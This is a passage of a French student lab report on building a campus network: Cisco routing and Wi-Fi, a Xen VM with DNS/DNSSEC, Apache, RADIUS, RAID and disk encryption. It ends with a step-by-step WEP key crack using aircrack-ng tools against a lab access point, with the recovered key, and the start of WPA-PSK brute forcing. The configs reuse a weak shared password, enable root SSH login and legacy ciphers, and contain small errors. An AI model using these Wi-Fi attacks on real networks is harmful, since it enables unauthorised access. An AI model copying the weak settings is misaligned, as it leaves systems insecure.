SE2A5-R1(config-if)#vrrp 1 preempt
SE2A5-R1(config-if)#vrrp 1 priority 110
SE2A5-R1(config-if)#exit
```
* Interface vers le point d'accès Wifi :
```
SE2A5-R1(config)#interface g3/1
SE2A5-R1(config-if)#switchport
SE2A5-R1(config-if)#switchport mode trunk
SE2A5-R1(config-if)#switchport trunk allowed vlan 1
SE2A5-R1(config-if)#no shutdown
SE2A5-R1(config-if)#exit
```
* NAT PAT :
```
SE2A5-R1(config)#access-list 164 permit 10.60.164.0 0.0.0.255 any
SE2A5-R1(config)#interface vlan 164
SE2A5-R1(config-if)#ip nat inside
SE2A5-R1(config-if)#exit
SE2A5-R1(config)#interface vlan 110
SE2A5-R1(config-if)#ip nat outside
SE2A5-R1(config-if)#exit
SE2A5-R1(config)#ip nat inside source list 164 interface t6/4 overload
```

### Cisco Catalyst 9200

* DHCP :
```
SE2A5-R2(config)#ip dhcp pool DEMINEUR
SE2A5-R2(dhcp-config)#dns 193.48.57.164
SE2A5-R2(dhcp-config)#network 10.60.164.0 255.255.255.0
SE2A5-R2(dhcp-config)#default-router 10.60.164.254
SE2A5-R2(dhcp-config)#exit
SE2A5-R2(config)#ip dhcp excluded-address 10.60.164.0 10.60.164.149
SE2A5-R2(config)#ip dhcp excluded-address 10.60.164.200 10.60.164.255
```
* VLAN n°1 :
```
SE2A5-R2(config)#interface vlan 1
SE2A5-R2(config-if)#ip address 10.60.101.253 255.255.255.0
SE2A5-R2(config-if)#no shutdown
SE2A5-R2(config-if)#vrrp 1 address-family ipv4
SE2A5-R2(config-if-vrrp)#address 10.60.101.254
SE2A5-R2(config-if-vrrp)#vrrpv2
SE2A5-R2(config-if-vrrp)#priority 100
SE2A5-R2(config-if-vrrp)#preempt
SE2A5-R2(config-if-vrrp)#exit
SE2A5-R2(config-if)#exit
```
* Interface vers le point d'accès Wifi :
```
SE2A5-R2(config)#interface g1/0/3
SE2A5-R2(config-if)#switchport
SE2A5-R2(config-if)#switchport mode trunk
SE2A5-R2(config-if)#switchport trunk allowed vlan 1
SE2A5-R2(config-if)#no shutdown
SE2A5-R2(config-if)#exit
```

### Point d'accès Wifi n°1

#### &ensp; &ensp; Configuration de base :

```
ap>enable
ap#configure terminal
```
* Configuration du nom d’hôte :
```
ap(config)#hostname SE2A5-AP1
```
* Accès SSH :
```
SE2A5-AP1(config)#aaa new-model
SE2A5-AP1(config)#username admin privilege 15 secret glopglop
SE2A5-AP1(config)#ip domain-name plil.info
SE2A5-AP1(config)#crypto key generate rsa general-keys modulus 2048
SE2A5-AP1(config)#ip ssh version 2
SE2A5-AP1(config)#line vty 0 15
SE2A5-AP1(config-line)#transport input ssh
SE2A5-AP1(config-line)#exit
```
* Accès console :
```
SE2A5-AP1(config)#line console 0
SE2A5-AP1(config-line)#password glopglop
SE2A5-AP1(config-line)#login authentification default
SE2A5-AP1(config-line)#exit
```
* Sécurisation des accès :
```
SE2A5-AP1(config)#service password-encryption
SE2A5-AP1(config)#enable secret glopglop
SE2A5-AP1(config)#banner motd #Restricted Access#
```
* VLAN n°1 :
```
SE2A5-AP1(config)#interface BVI 1
SE2A5-AP1(config-if)#ip address 10.60.101.1 255.255.255.0
SE2A5-AP1(config-if)#no shutdown
SE2A5-AP1(config-if)#exit
SE2A5-AP1(config)#ip default-gateway 10.60.101.254
```

#### &ensp; &ensp; Réseau privé (VLAN 164) :

* VLAN 164 :
```
SE2A5-AP1(config)#aaa authentication login EAP_DEMINEUR group RADIUS_DEMINEUR
SE2A5-AP1(config)#radius-server host 10.60.100.164 auth-port 1812 acct-port 1813 key glopglop
SE2A5-AP1(config)#aaa group server radius RADIUS_DEMINEUR
SE2A5-AP1(config-server)#server 10.60.100.164 auth-port 1812 acct-port 1813
SE2A5-AP1(config-server)#exit
SE2A5-AP1(config)#dot11 ssid DEMINEUR1
SE2A5-AP1(config-ssid)#mbssid guest-mode
SE2A5-AP1(config-ssid)#vlan 164
SE2A5-AP1(config-ssid)#authentication open eap EAP_DEMINEUR
SE2A5-AP1(config-ssid)#authentication network-eap EAP_DEMINEUR
SE2A5-AP1(config-ssid)#authentication key-management wpa
SE2A5-AP1(config-ssid)#exit
SE2A5-AP1(config)#interface dot11radio0.164
SE2A5-AP1(config-subif)#encapsulation dot1q 164
SE2A5-AP1(config-subif)#bridge-group 64
SE2A5-AP1(config-subif)#exit
SE2A5-AP1(config)#interface g0.164
SE2A5-AP1(config-subif)#encapsulation dot1q 164
SE2A5-AP1(config-subif)#bridge-group 64
SE2A5-AP1(config-subif)#exit
SE2A5-AP1(config)#interface dot11radio 0
SE2A5-AP2(config-if)#no shutdown
SE2A5-AP1(config-if)#encryption vlan 164 mode ciphers aes-ccm tkip
SE2A5-AP1(config-if)#mbssid
SE2A5-AP1(config-if)#ssid DEMINEUR1
SE2A5-AP1(config-if)#exit
```

On considère la commande ci-dessous de la configuration précédente :
```
radius-server host 10.60.100.164 auth-port 1812 acct-port 1813 key glopglop
```
Cette commande permet au PA de se connecter au serveur `freeradius` sur la VM afin de vérifier qu'un utilisateur se connecte avec les bons identifiants.  
Le mot de passe `glopglop` qui est spécifié sera également à définir dans les clients `freeradius` sur la VM.

L'accès SSH au PA nécessite de spécifier l'utilisation de l'algorithme de Diffie-Hellman et le chiffrement AES-128 :
```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc admin@10.60.101.1
```

### Point d'accès Wifi n°2

#### &ensp; &ensp; Configuration de base :

```
ap>enable
ap#configure terminal
```
* Configuration du nom d’hôte :
```
ap(config)#hostname SE2A5-AP2
```
* Accès SSH :
```
SE2A5-AP2(config)#aaa new-model
SE2A5-AP2(config)#username admin privilege 15 secret glopglop
SE2A5-AP2(config)#ip domain-name plil.info
SE2A5-AP2(config)#crypto key generate rsa general-keys modulus 2048
SE2A5-AP2(config)#ip ssh version 2
SE2A5-AP2(config)#line vty 0 15
SE2A5-AP2(config-line)#transport input ssh
SE2A5-AP2(config-line)#exit
```
* Accès console :
```
SE2A5-AP2(config)#line console 0
SE2A5-AP2(config-line)#password glopglop
SE2A5-AP2(config-line)#login authentification default
SE2A5-AP2(config-line)#exit
```
* Sécurisation des accès :
```
SE2A5-AP2(config)#service password-encryption
SE2A5-AP2(config)#enable secret glopglop
SE2A5-AP2(config)#banner motd #Restricted Access#
```
* VLAN n°1 :
```
SE2A5-AP2(config)#interface BVI 1
SE2A5-AP2(config-if)#ip address 10.60.101.2 255.255.255.0
SE2A5-AP2(config-if)#no shutdown
SE2A5-AP2(config-if)#exit
SE2A5-AP2(config)#ip default-gateway 10.60.101.254
```

#### &ensp; &ensp; Réseau privé (VLAN 164) :

* VLAN 164 :
```
SE2A5-AP2(config)#aaa authentication login EAP_DEMINEUR group RADIUS_DEMINEUR
SE2A5-AP2(config)#radius-server host 10.60.100.164 auth-port 1812 acct-port 1813 key glopglop
SE2A5-AP2(config)#aaa group server radius RADIUS_DEMINEUR
SE2A5-AP2(config-server)#server 10.60.100.164 auth-port 1812 acct-port 1813
SE2A5-AP2(config-server)#exit
SE2A5-AP2(config)#dot11 ssid DEMINEUR2
SE2A5-AP2(config-ssid)#mbssid guest-mode
SE2A5-AP2(config-ssid)#vlan 164
SE2A5-AP2(config-ssid)#authentication open eap EAP_DEMINEUR
SE2A5-AP2(config-ssid)#authentication network-eap EAP_DEMINEUR
SE2A5-AP2(config-ssid)#authentication key-management wpa
SE2A5-AP2(config-ssid)#exit
SE2A5-AP2(config)#interface dot11radio0.164
SE2A5-AP2(config-subif)#encapsulation dot1q 164
SE2A5-AP2(config-subif)#bridge-group 64
SE2A5-AP2(config-subif)#exit
SE2A5-AP2(config)#interface g0.164
SE2A5-AP2(config-subif)#encapsulation dot1q 164
SE2A5-AP2(config-subif)#bridge-group 64
SE2A5-AP2(config-subif)#exit
SE2A5-AP2(config)#interface dot11radio 0
SE2A5-AP2(config-if)#no shutdown
SE2A5-AP2(config-if)#encryption vlan 164 mode ciphers aes-ccm tkip
SE2A5-AP2(config-if)#mbssid
SE2A5-AP2(config-if)#ssid DEMINEUR2
SE2A5-AP2(config-if)#exit
```

## Paramétrage IPv6

Le protocole de routage utilisé pour IPv6 est RIPv6. Le routeur Cisco Catalyst 6509-E possède une métrique plus faible que le routeur Cisco Catalyst 9200 lui permettant de devenir prioritaire pour le routage IPv6.

### &ensp; &rarr; **Cisco Catalyst 6509-E**

* Routage IPv6 - Protocole RIPv6 :
```
SE2A5-R1(config)#ipv6 router rip tpima2a5
SE2A5-R1(config-router)#redistribute connected metric 1
SE2A5-R1(config-router)#redistribute rip 1 metric 1
SE2A5-R1(config-router)#redistribute static metric 1
SE2A5-R1(config-router)#exit
```
* VLAN 530 :
```
SE2A5-R1(config)#interface vlan 530
SE2A5-R1(config-if)#ipv6 address fe80::2 link-local
SE2A5-R1(config-if)#ipv6 rip tpima2a5 enable
SE2A5-R1(config-if)#ipv6 enable
```
* VLAN 110 :
```
SE2A5-R1(config)#interface vlan 110
SE2A5-R1(config-if)#ipv6 address 2001:660:4401:60a0::/64 eui-64
SE2A5-R1(config-if)#ipv6 nd prefix 2001:660:4401:60a0::/64 1000 900
SE2A5-R1(config-if)#ipv6 nd router-preference high
SE2A5-R1(config-if)#ipv6 enable
SE2A5-R1(config-if)#exit
```

### &ensp; &rarr; **Cisco Catalyst 9200**

* Routage IPv6 - Protocole RIPv6 :
```
SE2A5-R2(config)#ipv6 router rip tpima2a5
SE2A5-R2(config-router)#redistribute connected metric 2
SE2A5-R2(config-router)#redistribute rip 1 metric 2
SE2A5-R2(config-router)#redistribute static metric 2
SE2A5-R2(config-router)#exit
```
* VLAN 530 :
```
SE2A5-R2(config)#interface vlan 530
SE2A5-R2(config-if)#ipv6 address fe80::3 link-local
SE2A5-R2(config-if)#ipv6 rip tpima2a5 enable
SE2A5-R2(config-if)#ipv6 enable
```
* VLAN 110 :
```
SE2A5-R2(config)#interface vlan 110
SE2A5-R2(config-if)#ipv6 address 2001:660:4401:60a0::/64 eui-64
SE2A5-R2(config-if)#ipv6 nd prefix 2001:660:4401:60a0::/64 1000 900
SE2A5-R2(config-if)#ipv6 nd router-preference high
SE2A5-R2(config-if)#ipv6 enable
SE2A5-R2(config-if)#exit
```

### &ensp; &rarr; **Cisco ISR 4331**

* Bridge VLAN 532 :
```
SE2A5-R3(config)#interface bdi 532
SE2A5-R3(config-if)#ipv6 enable
SE2A5-R3(config-if)#exit
```
*  Bridge VLAN 110 :
```
SE2A5-R3(config)#interface bdi 110
SE2A5-R3(config-if)#ipv6 enable
SE2A5-R3(config-if)#exit
```

## Configuration du VLAN 164

Le réseau privé utilisé principalement pour les points d'accès Wifi est `10.60.164.0/24`. Il s'agit du VLAN 164.

### &ensp; &rarr; **Cisco Catalyst 6509-E**

* VLAN 164 :
```
SE2A5-R1(config)#vlan 164
SE2A5-R1(config-vlan)#name DEMINEUR
SE2A5-R1(config-vlan)#exit
SE2A5-R1(config)#interface vlan 164
SE2A5-R1(config-if)#description DEMINEUR
SE2A5-R1(config-if)#ip address 10.60.164.1 255.255.255.0
SE2A5-R1(config-if)#ipv6 address 2001:660:4401:60a4::/64 eui-64
SE2A5-R1(config-if)#ipv6 nd prefix 2001:660:4401:60a4::/64 1000 900
SE2A5-R1(config-if)#ipv6 nd router-preference high
SE2A5-R1(config-if)#ipv6 enable
SE2A5-R1(config-if)#no shutdown
SE2A5-R1(config-if)#vrrp 64 ip 10.60.164.254
SE2A5-R1(config-if)#vrrp 64 preempt
SE2A5-R1(config-if)#vrrp 64 priority 110
SE2A5-R1(config-if)#vrrp 64 track 1 decrement 50
SE2A5-R1(config-if)#exit
SE2A5-R1(config)#interface t5/4
SE2A5-R1(config-if)#switchport trunk allowed vlan add 164
SE2A5-R1(config-if)#exit
SE2A5-R1(config)#interface g3/1
SE2A5-R1(config-if)#switchport trunk allowed vlan add 164
SE2A5-R1(config-if)#exit
```

### &ensp; &rarr; **Cisco Catalyst 9200**

* VLAN 164 :
```
SE2A5-R2(config)#vlan 164
SE2A5-R2(config-vlan)#name DEMINEUR
SE2A5-R2(config-vlan)#exit
SE2A5-R2(config)#interface vlan 164
SE2A5-R2(config-if)#description DEMINEUR
SE2A5-R2(config-if)#ip address 10.60.164.2 255.255.255.0
SE2A5-R2(config-if)#ipv6 address 2001:660:4401:60a4::/64 eui-64
SE2A5-R2(config-if)#ipv6 nd prefix 2001:660:4401:60a4::/64 1000 900
SE2A5-R2(config-if)#ipv6 nd router-preference high
SE2A5-R2(config-if)#ipv6 enable
SE2A5-R2(config-if)#no shutdown
SE2A5-R2(config-if)#vrrp 64 address-family ipv4
SE2A5-R2(config-if-vrrp)#address 10.60.164.254
SE2A5-R2(config-if-vrrp)#priority 100
SE2A5-R2(config-if-vrrp)#preempt
SE2A5-R2(config-if-vrrp)#exit
SE2A5-R2(config-if)#exit
SE2A5-R2(config)#interface t1/1/2
SE2A5-R2(config-if)#switchport trunk allowed vlan add 164
SE2A5-R2(config-if)#exit
SE2A5-R2(config)#interface g1/0/3
SE2A5-R2(config-if)#switchport trunk allowed vlan add 164
SE2A5-R2(config-if)#exit
```

# Machine virtuelle sur le serveur Capbreton

## Création de la machine virtuelle

* Connexion au serveur Capbreton :
```
ssh capbreton.plil.info
```

* Créer la variable d'environnement `http_proxy` :
```
export http_proxy=http://proxy.plil.fr:3128
```
En configurant correctement le proxy de la plateforme, il est désormais possible d'accéder aux images et aux paquets Debian pour créer la VM. 

* Création d’une image pour la VM :
```
xen-create-image --hostname=demineur --ip=10.60.100.164 --gateway=10.60.100.254 --netmask=255.255.255.0 --dir=/usr/local/xen --password=glopglop --dist=buster
```
&ensp; &ensp; &rarr; Dossier de stockage des données de la VM : `/usr/local/xen/domains/demineur`  
&ensp; &ensp; &rarr; Fichier de configuration de la VM : `/etc/xen/demineur.cfg`

* Création des partitions virtuelles :
```
vgcreate virtual /dev/sda7
lvcreate -L10G -n demineur-home virtual
lvcreate -L10G -n demineur-var virtual
```

* Vérification des partitions :
```
lvdisplay
lsblk
```

* Formatage de la partition virtuelle :
```
mkfs.ext4 /dev/virtual/demineur-home
mkfs.ext4 /dev/virtual/demineur-var
```

* Modification de `/etc/xen/demineur.cfg` :

&ensp; &ensp; &rarr; Ajout des partitions virtuelles dans la variable `disk` :
```
'phy:/dev/virtual/demineur-home,xvda3,w',
'phy:/dev/virtual/demineur-var,xvda4,w'
```
&ensp; &ensp; &rarr; Ajout du pont dans dans la variable `vif` :
```
vif = [ 'mac=00:16:3E:D8:97:68, bridge=IMA2a5' ]
```

Le fichier de configuration obtenu est le suivant :
```
#
# Configuration file for the Xen instance demineur, created
# by xen-tools 4.8 on Fri Nov 12 08:53:11 2021.
#

#
#  Kernel + memory size
#
kernel      = '/boot/vmlinuz-4.19.0-9-amd64'
extra       = 'elevator=noop'
ramdisk     = '/boot/initrd.img-4.19.0-9-amd64'

vcpus       = '1'
memory      = '256'


#
#  Disk device(s).
#
root        = '/dev/xvda2 ro'
disk        = [
                  'file:/usr/local/xen/domains/demineur/disk.img,xvda2,w',
                  'file:/usr/local/xen/domains/demineur/swap.img,xvda1,w',
                  'phy:/dev/virtual/demineur-home,xvda3,w',
                  'phy:/dev/virtual/demineur-var,xvda4,w'
              ]


#
#  Physical volumes
#


#
#  Hostname
#
name        = 'demineur'

#
#  Networking
#
vif         = [ 'mac=00:16:3E:BE:BF:2D, bridge=IMA2a5' ]

#
#  Behaviour
#
on_poweroff = 'destroy'
on_reboot   = 'restart'
on_crash    = 'restart'
```

* Création de la VM :
```
xl create /etc/xen/demineur.cfg
```

* Affichage de l’état des VM :
```
xl list
```

* Affichage du mot de passe de la VM :
```
tail -f /var/log/xen-tools/demineur.log
```

* Démarrage d'un shell sur la VM :
```
xen console demineur
```

* Changement du mot de passe :
```
passwd root
```

* Mise à jour de la liste des paquets :
```
apt update
```

* Montage des partitions virtuelles :
```
mount /dev/xvda4 /mnt
```

* Copie des données des répertoires `/home` et `/var` :
```
mv /var/* /mnt
```

* Démontage des partitions virtuelles :
```
umount /mnt
```

* Ajout des partitions au fichier `/etc/fstab` :
```
/dev/xvda3 /home ext4 defaults 0 2
/dev/xvda4 /var ext4 defaults 0 2
```

## Serveur SSH

* Modification du fichier `/etc/ssh/sshd_config` :
```
PermitRootLogin yes
```

## Configuration IP

* Modification du fichier `/etc/network/interfaces` :
```
auto lo
iface lo inet loopback

auto eth0
iface eth0 inet6 auto
iface eth0 inet static
	address 10.60.100.164/24
	up ip address add dev eth0 193.48.57.164/32
	up ip route add default via 10.60.100.254 src 193.48.57.164
	down ip address del dev eth0 193.48.57.164/32
	down ip route del default via 10.60.100.254 src 193.48.57.164
```

## Serveur DNS

Dans un premier temps, on utilise le registrar [Gandi](gandi.net) afin de réserver le nom de domaine `demineur.site`.  
Une fois le nom de domaine réservé, il est alors possible de configurer les serveurs de noms et les Glue Records :  
&ensp; &rarr; Ajouter le Glue Record vers `193.48.57.164` afin d'associer le nom de domaine `demineur.site` à l'adresse IP `193.48.57.164`  
&ensp; &rarr; Modifier les serveurs de noms pour utiliser `ns.demineur.site` et `ns6.gandi.net`  
En attendant que les serveurs de noms soient correctement modifiés, il est possible de changer les enregistrements DNS :  
&ensp; &rarr; Modifier l'enrgistrement DNS `@`-`A` avec la valeur `193.48.57.193`  
&ensp; &rarr; Ajouter l'enrgistrement DNS `ns`-`A` avec la valeur `193.48.57.193`  
&ensp; &rarr; Modifier l'enrgistrement DNS `www`-`CNAME` avec la valeur `ns.demineur.site.`

* Installation du paquet `bind9`
```
apt install bind9
```

* Modification du fichier `/etc/resolv.conf` :
```
nameserver 127.0.0.1
```

* Modification du fichier `/etc/bind/named.conf.local` :
```
zone "demineur.site" {
	type master;
	file "/etc/bind/db.demineur.site";
	allow-transfer { 217.70.177.40; }; // ns6.gandi.net
};
```

* Modification du fichier `/etc/bind/named.conf.options` :
```
options {
  directory "/var/cache/bind";
  forwarders {
    217.70.177.40;
  };
  dnssec-validation auto;
  listen-on-v6 { any; };
  allow-transfer { "allowed_to_transfer"; };
};
acl "allowed_to_transfer" {
  217.70.177.40;
};
```

* Créer le fichier BIND pour `demineur.site` :
```
cp /etc/bind/db.local /etc/bind/db.demineur.site
```

* Modification du fichier `/etc/bind/db.demineur.site` :
```
;
; BIND data file for demineur.site
;
$TTL    604800
@       IN      SOA     ns.demineur.site. root.demineur.site. (
                              1         ; Serial
                         604800         ; Refresh
                          86400         ; Retry
                        2419200         ; Expire
                         604800 )       ; Negative Cache TTL
;
@	IN	NS	ns.demineur.site.
@	IN	NS	ns6.gandi.net.
@	IN	A	193.48.57.164
NS	IN	A	193.48.57.164
NS	IN	AAAA	2001:7A8:116E:60A4::1
WWW	IN	CNAME	NS
```

* Redémarrage du service `bind9` :
```
service bind9 restart
```

### Tester DNS :

* Modification du fichier `/etc/resolv.conf`
```
nameserver 193.48.57.164
```

* Vérification de la traduction du nom de domaine `demineur.site` :
```
nslookup demineur.site
```

## Serveur Web

* Installation du paquet `openssl` :
```
apt install openssl
```

* Création d'un certificat TSL :
```
openssl req -nodes -newkey rsa:2048 -sha256 -keyout demineur.site.key -out demineur.site.csr
```
Attention à bien renseigner `demineur.site` comme CN (Common Name) pour la création du certificat.

```
mv demineur.site.key /etc/ssl/private
mv demineur.site.csr /etc/ssl/certs
```

Il est nécessaire de faire signer le certificat `.csr` par un registrar tel que [Let's Encrypt](https://letsencrypt.org/fr/) ou [Gandi](https://docs.gandi.net/fr/ssl/creation/installation_certif_manuelle.html) afin d'en obtenir le nouveau certificat signé `.crt`.  
Puisque le registrar Gandi a été utilisé pour réserver le nom de domaine `demineur.site`, il est alors possible d'utiliser à nouveau ce service pour signer gratuitement le certificat `demineur.site.csr`.

Pour cela, il faut "acheter" un certificat SSL pour un hôte "ailleurs" et coller le contenu du fichier `.csr`. Une fois le CN entré et reconnu, l'achat devient gratuit et peut être effectué.  
Après quelques minutes, il est désormais possible de télécharger le certificat signé `.crt` ainsi que le certificat nommé `GandiStandardSSLCA2.pem`.

Ces deux certificats sont à copier dans le répertoire `/etc/ssl/certs` de la VM.

* Copier les certificats sur la VM :
```
scp -r -p demineur.site.crt root@193.48.57.164:/etc/ssl/certs
scp -r -p GandiStandardSSLCA2.pem root@193.48.57.164:/etc/ssl/certs
```

* Installation du paquet `apache2` :
```
apt install apache2
```

* Activation du module SSL :
```
a2enmod ssl
```

* Modification du fichier `/etc/apache2/ports.conf` :
```
Listen 80

<IfModule mod_ssl.c>
   Listen 443
</IfModule>
<IfModule mod_gnutls.c>
   Listen 443
</IfModule>
```

* Ajout du fichier `/etc/apache2/sites-available/000-demineur.site-ssl.conf` :
```
<IfModule mod_ssl.c>
        <VirtualHost 193.48.57.164:443>
                ServerName demineur.site
                ServerAlias ns.demineur.site www.demineur.site
                DocumentRoot /var/www/demineur.site/
                CustomLog /var/log/apache2/secure_access.log combined
                SSLEngine on
                SSLCertificateFile /etc/ssl/certs/demineur.site.crt
                SSLCertificateKeyFile /etc/ssl/private/demineur.site.key
                SSLCACertificateFile /etc/ssl/certs/GandiStandardSSLCA2.pem
                SSLVerifyClient None
        </VirtualHost>
</IfModule>
```

* Activation du site `demineur.site` :
```
a2ensite 000-demineur.site-ssl
```

* Modification du fichier `nano /etc/apache2/apache2.conf` :
```
ServerName demineur.site
```

* Modification du fichier `nano /etc/apache2/sites-available/000-default.conf` :
```
Redirect permanent / https://www.demineur.site/
```

* Redémarrage du service `apache2` :
```
service apache2 restart
```

## Configuration DNSSEC

* Modification du fichier `/etc/bind/named.conf.options` :
```
dnssec-enable yes;
dnssec-validation yes;
dnssec-lookaside auto;
```

* Création du répertoire `demineur.site.dnssec` :
```
mkdir /etc/bind/demineur.site.dnssec/
cd /etc/bind/demineur.site.dnssec/
```

* Génération de la clef asymétrique de signature de clefs de zone :
```
dnssec-keygen -a RSASHA256 -b 2048 -f KSK -n ZONE demineur.site
```

```
mv Kdemineur.site.*.key demineur.site-ksk.key
mv Kdemineur.site.*.private demineur.site-ksk.private
```

* Génération de la clef asymétrique de signature des enregistrements :
```
dnssec-keygen -a RSASHA256 -b 2048 -n ZONE demineur.site
```

```
mv Kdemineur.site.*.key demineur.site-zsk.key
mv Kdemineur.site.*.private demineur.site-zsk.private
```

* Modification du fichier `/etc/bind/db.demineur.site` :
```
$include "/etc/bind/demineur.site.dnssec/demineur.site-ksk.key"
$include "/etc/bind/demineur.site.dnssec/demineur.site-zsk.key"
```

* Signature des enregistrements de la zone :
```
dnssec-signzone -o demineur.site -k demineur.site-ksk ../db.demineur.site demineur.site-zsk
```

* Modification du fichier `/etc/bind/named.conf.local` :
```
zone "demineur.site" {
	type master;
	file "/etc/bind/db.demineur.site.signed";
	allow-transfer { 217.70.177.40; }; // ns6.gandi.net
};
```
Il ne reste plus qu’à communiquer la partie publique de la KSK (présente dans le fichier `demineur.site-ksk.key`) à Gandi.  
L'algorithme utilisé est le 5 (RSA/SHA-1).

### Vérification :

```
cd /etc/bind/
dnssec-verify -o demineur.site db.demineur.site.signed
```

```
service bind9 restart
```

## Configuration de RADIUS (Points d'accès WPA-EAP)

* Installer le paquet `freeradius` :
```
apt install freeradius
```

* Modifier le fichier `/etc/freeradius/clients.conf` :
```
client PA1 {
        ipaddr  = 10.60.101.1
        secret  = glopglop
}

client PA2 {
        ipaddr  = 10.60.101.2
        secret  = glopglop
}
```

* Ajouter un utilisateur en modifiant le fichier `/etc/freeradius/3.0/users` :
```
pifou Cleartext-Password := "pasglop"
```

* Modifier le fichier `/etc/freeradius/3.0/mods-enables/eap` :
```
eap {
  default_eap_type = peap
  ...
}
```

* Arrêter le service `freeradius` durant la phase de tests :
```
service freeradius stop
```

* Démarrer `freeradius` en mode debug :
```
freeradius -X
```
Pendant que `freeradius` est en mode debug, tenter de se connecter au réseau Wifi qui a été créé et vérifier que celle-ci est prise en compte.  
Si la connexion est validée alors la configuration est correcte. Dans ce cas, arrêter le programme de debug et réactiver le service.

* Redémarrer le service `freeradius` :
```
service freeradius start
```

## Sécurisation des données

Afin de sécuriser les données, on configure un RAID5 avec les trois partition LVM de 1Go créées précédemment.

* Installer les paquets nécessaires :
```
apt install mdadm
```

* Créer les partitions virtuelles pour le RAID :
```
lvcreate -L1G -n demineur-raid-1 virtual
lvcreate -L1G -n demineur-raid-2 virtual
lvcreate -L1G -n demineur-raid-3 virtual
```

* Ajouter les partitions à la configuration de la VM :
```
'phy:/dev/virtual/demineur-raid-1,xvdb1,w',
'phy:/dev/virtual/demineur-raid-2,xvdb2,w',
'phy:/dev/virtual/demineur-raid-3,xvdb3,w'
```

* Créer le RAID5 à l'aide de la commande `mdadm` :
```
mdadm --create /dev/md0 --level=5 --raid-devices=3 /dev/xvdb1 /dev/xvdb2 /dev/xvdb3
```

* Formater la partition RAID5 :
```
mkfs.ext4 /dev/md0
```

* Ajout de la partition au fichier `/etc/fstab` :
```
/dev/md0 /media/raid ext4 defaults 0 1
```

* On recharge les partitions afin de prendre en compte le RAID :
```
mount -a
```

## Chiffrement des données

On connecte une clef USB sur laquelle on crée une partition chiffrée.

* Installation des paquets nécessaires :
```
apt install lvm2 cryptsetup
```

* Créer une partition `sdb1` sur la clef USB `sdb` :
```
fdisk /dev/sdb
```
&ensp; &rarr; entrer `n` pour créer une nouvelle partition  
&ensp; &rarr; entrer `p` pour créer une partition primaire  
&ensp; &rarr; entrer le numéro de la partition  
&ensp; &rarr; début de la partition : laisser par défaut  
&ensp; &rarr; fin de la partition : laisser par défaut (prend tout l'espace disponible)  
&ensp; &rarr; `w` pour ecrire

* Informer le kernel que la table des partitions a changé :
```
partprobe
```

* Initialisation du chiffrement LUKS de la partition :
```
cryptsetup create home /dev/sdb1 --type luks
```

Le chiffrement LUKS montre à l'utilisateur qu'il s'agit d'une partition chiffrée.  
Il faut plutôt utiliser le chiffrement PLAIN qui permet de masquer ces informations.
```
cryptsetup create home /dev/sdb1 --type plain
```

* Formatage de la partition :
```
cryptsetup open --type {plain|luks} /dev/sdb1 home
mkfs.ext4 /dev/mapper/home
cryptsetup close home
```

### Tester le chiffrement :

* Montage de la partition :
```
cryptsetup open --type {plain|luks} /dev/sdb1 home
mount /dev/mapper/home /mnt
```

* Ajout de fichiers sur la clef :
```
echo "test" > /mnt/test
```

* Démontage de la clef USB :
```
umount /mnt
cryptsetup close home
```
En reconnectant à nouveau la clef, on peut lire le fichier.

## Ferme de serveurs Web

* Installer Docker :
```
sudo apt install docker.io
```

* Créer un fichier de configuration `Dockerfile` :
```
FROM httpd:latest
WORKDIR /usr/local/apache2/htdocs 
COPY src/ .
CMD [ "httpd", "-D", "FOREGROUND" ]
```

* Récupérer l'image `httpd` via Docker Hub :
```
docker pull httpd
```

* Créer l'image Docker :
```
docker build -t apache .
```

* Créer un conteneur :
```
docker run -d --name apache apache
```

# Tests d'intrusion

* Passer en mode super-utilisateur :
```
su -
```
Le paramètre `-` permet de lire le fichier `.bashrc` de l'utilisateur `root` et d'ajouter le répertoire `/sbin` à la variable d'environnement `PATH`. Cela permet donc d'accéder aux multiples commandes du paquet `aircrack-ng`. 

* Installation des paquets nécessaires :
```
apt install aircrack-ng pciutils crunch
```

## Cassage de clef WEP d'un point d'accès Wifi

* Vérification du nom de la carte Wifi :
```
airmon-ng
```
La carte Wifi se nomme `wlx40a5ef059e47`.

* Démarrer la carte Wifi en mode de surveillance (monitor mode) :
```
airmon-ng start wlx40a5ef059e47
```
Après activation du mode de surveillance, la carte Wifi se nomme `wlan0mon`.

```
airmon-ng start wlan0mon
```

* Lancer une écoute de tous les paquets Wifi qui circulent afin de déterminer les paramètres du réseau Wifi à attaquer :
```
airodump-ng wlan0mon
```
Récupérer les informations suivantes :  
&ensp; &rarr; BSSID	- 04:DA:D2:9C:50:53  
&ensp; &rarr; Canal	- 3  
&ensp; &rarr; SSID	- cracotte04

* Réaliser un test d'injection sur le point d'accès pour vérifier que la distance entre la carte Wifi et le point d'accès est suffisante :
```
aireplay-ng -9 -e cracotte04 -a 04:DA:D2:9C:50:53 wlan0mon
```
La commande doit retourner un pourcentage proche de 100% pour réaliser l'opération.

Il faut désormais lancer deux opérations en parallèle :  
&ensp; &rarr; Cibler le point d'accès avec `airodump-ng` pour capturer les vecteurs d'initialisation nécessaires au cassage de la clef WEP  
&ensp; &rarr; Associer la carte Wifi et le point d'accès avec `aireplay-ng` (réalisé par des cartes Raspberry Pi dans la salle de TP)

* Récupérer les vecteurs d'initialisation (VI) pour l'algorithme de cassage :
```
airodump-ng -c 3 --bssid 04:DA:D2:9C:50:53 -w output wlan0mon
```
Les VI générés sont enregistrés dans les fichiers `output*`

* Associer la carte Wifi et le point d'accès (relancer si la commande s'arrête) :
```
aireplay-ng -1 0 -e cracotte04 -a 04:DA:D2:9C:50:53 -h 40:a5:ef:05:9e:47 wlan0mon
```
Le paramètre `-1` permet d'effectuer de fausses authentifications dont le délai entre les demandes est `0`.  
Pour cela, il est nécessaire de spécifier le BSSID de la carte Wifi utilisée pour le cassage.

Après un certain temps, un nombre suffisant de VI (entre 30k et 50k pour de 'Data' récupérées) a été capturé et la clef WEP peut alors être cassée à l'aide des fichiers `output*`.

* Casser la clef WEP du point d'accès :
```
aircrack-ng -b 04:DA:D2:9C:50:53 output*.cap
```

```
KEY FOUND! [ 21:34:56:78:9A:BC:05:CB:A9:87:65:43:21 ] 
Decrypted correctly: 100%
```

## Cassage du mot de passe WPA-PSK par force brute

* Vérification du nom de la carte Wifi :
```
airmon-ng
```
La carte Wifi se nomme `wlx40a5ef059e47`.

* Démarrer la carte Wifi en mode de surveillance (monitor mode) :
```
airmon-ng start wlx40a5ef059e47
airmon-ng start wlan0mon
```
Après activation du mode de surveillance, la carte Wifi se nomme `wlan0mon`.

